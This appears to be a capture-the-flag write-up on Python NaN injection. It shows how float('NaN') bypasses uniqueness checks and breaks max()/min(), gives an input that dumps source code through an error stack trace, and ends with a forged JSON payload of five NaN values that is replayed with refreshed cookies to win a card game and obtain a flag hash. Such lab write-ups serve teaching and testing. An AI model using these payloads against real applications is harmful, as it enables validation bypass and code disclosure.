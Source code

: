 ## Objective


## Solution

#### NaN concepts 0
- NaN (Not a Number) is a special value representing missing or undefined Python data.

#### NaN concepts 1
- ```float(str)``` can process a string "NaN" without any error
- When addedd or multiplied or some other operation is performed with the ```nan``` it is nan which wins
```python
small = float("NaN")
big = float(999.999)

print(big>small)
```
```output
>False
```
#### NaN concepts 2

```python
boo = float("NaN")
if boo == "NaN":
    print("Got a NaN")
else:
    print("There is no NaN? What is the the value of boo?")
    print(boo)
```
```
>There is no NaN? What is the the value of boo?
>nan
```

#### NaN injection example PoC 1
- The code below is supposed to store 5 unique numbers
- We can enter ```NaN``` 5 times and at the end of the execution the entire list will have 5 ```nan``` values
```python3
def get_unique_numbers():
    unique_numbers = set()

    while len(unique_numbers) < 5:
        try:
            user_input = float(input(f"Enter unique number {len(unique_numbers) + 1}: "))
            if user_input in unique_numbers:
                print("Number already entered. Please enter a unique number.")
            else:
                unique_numbers.add(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")

    return list(unique_numbers)

if __name__ == "__main__":
    unique_numbers_list = get_unique_numbers()
    print("You entered the following unique numbers:", unique_numbers_list)
```
```
Enter unique number 1: 4
Enter unique number 2: 4
Number already entered. Please enter a unique number.
Enter unique number 2: NaN
Enter unique number 3: NaN
Enter unique number 4: NaN
Enter unique number 5: NaN
You entered the following unique numbers: [nan, 4.0, nan, nan, nan]
```

#### NaN injection example PoC 2
- The code below stores 5 numbers and returns the max and the min value
```python
def get_user_inputs():
    numbers = []
    for i in range(5):
        try:
            user_input = float(input(f"Enter number {i + 1}: "))
            numbers.append(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")
            i -= 1  # Decrement the loop counter to re-enter the current input

    return numbers

if __name__ == "__main__":
    user_numbers = get_user_inputs()

    if user_numbers:
        highest_number = max(user_numbers)
        lowest_number = min(user_numbers)

        print("Entered numbers:", user_numbers)
        print("Highest number:", highest_number)
        print("Lowest number:", lowest_number)
```
```
Enter number 1: NaN
Enter number 2: -11
Enter number 3: 0
Enter number 4: 3333
Enter number 5: 44
Entered numbers: [nan, -11.0, 0.0, 3333.0, 44.0]
Highest number: nan
Lowest number: nan
```
#### Dump code via error stacktrace

- Trigger an error that will dump the code
```
{"play":"0x5,6,7,8,9"}
```

#### Vulnerable code analysis
- Inject NaN
- Bypass the unique card check
- ```max()``` and ```min()``` returns ```nan``` is all cases
```python3
# Error in function named play_cards:
....
        for row in reader:
            for n in row:
                n = float(n) #----------> Inject NaN here
                if is_valid_whole_number_choice(n) and n not in [x['num'] for x in player_cards]:
                    player_cards.append({
                        'owner': 'p',
                        'num': n
                    })
            break

        #-----------> Bypass the check here
        if len(player_cards) != 5:
            return jsonify({
                "request": False,
                "data": f"Requires 5 unique values but was given \"{csv_card_choices}\""
            })
....
        
        maxItem = False
        minItem = False

        #-----------> NaN magic here
        if bool(len(all_cards)):
            maxItem = max(all_cards, key=lambda x: x['num'])
            minItem = min(all_cards, key=lambda x: x['num'])

....
```

#### Forge for the win
- We will use Burp Repeater to solve the challenge.
- Send JSON data with NaN for all the cards number
```json
{"play":"NaN,NaN,NaN,NaN,NaN"}
```
- For every successful response replace the old cookie with the new cookie
- Once the score reached 10 we would get the win success hash in our response
```json
{
   "data":{
      "conduit":{
         "hash":"a2a6c9bcc95608962d98d885e847c08e36908e00048cedf000fd259bd02e6f61",
         "resourceId":"b5187f3e-8cd5-48c3-9796-001f332ea558"
      },
     ......
}
```

#### Reference
- https://www.tenable.com/blog/python-nan-injection
